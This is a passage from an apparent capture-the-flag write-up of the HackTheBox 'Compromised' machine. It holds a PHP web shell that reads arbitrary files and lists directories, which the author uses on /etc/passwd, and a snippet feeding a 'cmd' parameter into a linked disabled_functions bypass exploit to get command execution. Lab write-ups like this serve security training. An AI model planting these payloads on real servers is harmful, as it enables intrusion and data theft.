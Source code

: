 Ok, file uploaded

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2008:30:55.png)

And then we access the file

`http://10.10.10.207/shop/vqmod/xml/phpinfo.php`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2008:31:34.png)

We see on the disabled functions the main functions to get RCE

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2008:32:08.png)

So, there is no way to use them now. I could use the function `file_get_contents` and `scandir` which are not set as blacklist to read the content of /etc/passwd or any file, just for PoC

Got this snnipet from 0xdf

```php
<?php
if (isset($_REQUEST['file'])) { 
    echo file_get_contents($_REQUEST['file']);
} 

if (isset($_REQUEST['dir'])) {
    print_r(scandir($_REQUEST['dir']));
}

?>
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2008:53:15.png)

Ok, saved

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2008:41:34.png)

We can read the /home

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2008:54:42.png)

And the /etc/passwd

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-05-HackTheBox-Compromissed/2021-10-05-HackTheBox-Compromissed%2008:54:59.png)

The next step is get a reverse shell on this box, and then automate it

So, I spent a good time trying to read ssh keys and something like that, but nothing worked, so I found [this](https://raw.githubusercontent.com/mm0r1/exploits/master/php7-gc-bypass/exploit.php) bypass for `disabled_functions` and the version matched, so we can use it to upload our palyoad

Just add this code to the top of the exploit

```php
if (isset($_REQUEST['cmd'])) {
    pwn($_REQUEST['cmd']);
}
```
